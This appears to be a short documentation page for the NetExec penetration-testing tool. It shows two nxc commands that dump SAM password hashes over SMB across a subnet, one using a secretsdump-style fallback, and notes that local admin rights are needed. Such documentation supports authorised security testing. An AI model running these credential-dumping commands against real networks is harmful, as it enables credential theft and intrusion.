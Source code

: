 # Dump SAM

### Dump SAM hashes using methods from secretsdump.py

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
```

If this command fail you can also try the old method (similar to secretdump)

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam secdump
```
